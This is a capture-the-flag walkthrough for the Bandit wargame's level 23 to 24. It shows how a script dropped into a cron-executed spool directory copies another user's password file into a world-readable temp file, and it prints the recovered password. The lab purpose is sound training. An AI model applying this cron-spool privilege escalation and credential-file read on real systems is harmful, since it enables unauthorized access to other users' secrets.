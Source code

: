 This is a very simple challenge, which makes us feel a bit tough!
If you are familiar with bash-scripting it's just a piece-of-cake for you!
Or else, learn bash-scripting from [Ryan's tutorials](https://ryanstutorials.net/bash-scripting-tutorial/). 
Also do you know what is a cron-job?

If you've surfed a bit around here-an-there in the previous leve, you might have come across this:
```
bandit22@bandit:~$ ls -al /var
total 48
drwxr-xr-x 11 root     root     4096 May  7 20:14 .
drwxr-xr-x 26 root     root     4096 May 13 12:50 ..
drwxr-xr-x  2 root     root     4096 Sep  3 06:52 backups
drwxr-xr-x  7 root     root     4096 May  3 14:25 cache
-rwx------  1 root     root        0 May  7 19:45 crash
-rw-------  1 bandit22 bandit22  348 May  7 20:14 .info22.txt
drwxr-xr-x 31 root     root     4096 May  7 19:45 lib
drwxrwsr-x  2 root     staff    4096 Jun  3  2018 local
lrwxrwxrwx  1 root     root        9 May  3 14:16 lock -> /run/lock
drwxr-x---  8 root     root     4096 Sep  3 06:52 log
drwxrwsr-x  2 root     mail     4096 May  3 14:16 mail
drwxr-xr-x  2 root     root     4096 May  3 14:16 opt
lrwxrwxrwx  1 root     root        4 May  3 14:16 run -> /run
drwxr-xr-x  5 root     root     4096 May 14 09:41 spool
drwx------  2 root     root     4096 May  7 19:45 tmp
bandit22@bandit:~$ cat /var/.info22.txt 
Did you know that cron was invented by Brian Kernighan, co-author of the C
programming language? There is much confusion about what "cron" means. Most
people assume it is derived from "Chronos", which is greek for "time". Of
course to be really sure, someone would have to ask Brian Kernighan, who is
currently a professor at Princeton University.
bandit22@bandit:~$
```
`Brian Kernighan` is one of the legendary computer scientists. He contributed alot for the development of Unix OS alongwith Ken Thompson and Dennis Ritchie.
If you wanna know more about him and his creations, I suggest you to watch this [video](https://www.youtube.com/watch?v=O9upVbGSBFo).


Let's see what we can do:
```
bandit23@bandit:~$ ls /etc/cron.d/
cronjob_bandit15_root  cronjob_bandit17_root  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  cronjob_bandit25_root
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/get_bandit24_pass
bandit23@bandit:/tmp/get_bandit24_pass$ ls
bandit23@bandit:/tmp/get_bandit24_pass$ nano bashing_script.sh
Unable to create directory /home/bandit23/.nano: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

bandit23@bandit:/tmp/get_bandit24_pass$ cat bashing_script.sh 
#!/bin/bash

# First let's create a file to store the password of user `bandit24`
touch /tmp/get_bandit24_pass/password_of_bandit24 && chmod +rw /tmp/get_bandit24_pass/password_of_bandit24

# Since the owner of the file `/etc/bandit_pass/bandit24` is bandit24 and so the owner of the directory of /var/spool/bandit24
cat /etc/bandit_pass/bandit24 >> /tmp/get_bandit24_pass/password_of_bandit24

# Finally, let's copy this script to `/var/spool/bandit24`
bandit23@bandit:/tmp/get_bandit24_pass$
bandit23@bandit:/tmp/get_bandit24_pass$ chmod +rwx bashing_script.sh 
bandit23@bandit:/tmp/get_bandit24_pass$ cp bashing_script.sh /var/spool/bandit24/
bandit23@bandit:/tmp/get_bandit24_pass$ chmod 777 .
bandit23@bandit:/tmp/get_bandit24_pass$ date
Thu Sep  3 13:00:46 CEST 2020
bandit23@bandit:/tmp/get_bandit24_pass$ date
Thu Sep  3 13:02:03 CEST 2020
bandit23@bandit:/tmp/get_bandit24_pass$ ls
bashing_script.sh  password_of_bandit24
bandit23@bandit:/tmp/get_bandit24_pass$ cat password_of_bandit24 
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
bandit23@bandit:/tmp/get_bandit24_pass$
```

Since the owner of the file `/etc/bandit_pass/bandit24` and the eligible group of the directory `/var/spool/bandit24/` is the user `banidt24`;
and also since there's a cron job running just as the example which is a hint for us at `/usr/bin/cronjob_bandit24.sh`...the process-flow might've striked your brain.
That with the time limit something like `timeout -s 9 60 ./<script>`, the script in the directory `/var/spool/banidt24` run every one-minute.
To be able to other  users to access the file `/tmp/get_bandit24_pass/password_of_bandit24` we gave permissions to both it's directory and the file-itself.

So finally we get the password directly from `/etc/bandit_pass/bandit24` to our file `/tmp/get_bandit24_pass/password_of_bandit24`, because of the cron-job, which runs our script which was copied into `/var/spool/bandit24/`.

Hope you've learnt something new from this [if you don't know this before/didn't strike to you during the start].

Now, let's use the password `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ` to log into the remote-machine as `bandit24`.

**Warning: Please, first try Level 24 -> Level 25! Otherwise it's useless to simply cpy-pst the command[s]/password[s].

